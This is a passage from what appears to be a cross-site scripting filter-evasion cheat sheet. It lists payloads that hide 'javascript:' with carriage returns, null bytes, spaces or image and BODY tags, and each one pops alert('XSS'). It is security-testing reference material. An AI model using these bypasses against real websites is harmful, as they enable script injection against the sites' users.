 ```
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
Multiline Injected JS using ASCII carriage returns (same as above only a more extreme example of this XSS vector) these are not spaces just one of the three charachters as described above: 
```
<IMG
SRC
=
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
X
S
S
'
)
"
>
```
Null chars also work as XSS vectors in both IE and older versions of Opera, but not like above, you need to inject them directly using something like Burp Proxy or if you want to write your own you can either use vim (^V@ will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char %00 is much more useful and helped me bypass certain real world filters with a variation on this example: 
```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```
Spaces before the JavaScript in images for XSS (this is useful if the pattern match doesn't take into account spaces in the word "javascript:" -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the "javascript:" keyword):
```
<IMG SRC="   javascript:alert('XSS');">
```

XSS with no single quotes or double quotes or semicolons:
```
<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>
```
BODY image:
```
<BODY BACKGROUND="javascript:alert('XSS')">
```
BODY tag (I like this method because it doesn't require using any variants of "javascript:" or "<SCRIPT..." to accomplish the XSS attack):
```
<BODY ONLOAD=alert('XSS')>
```
Event Handlers that can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing):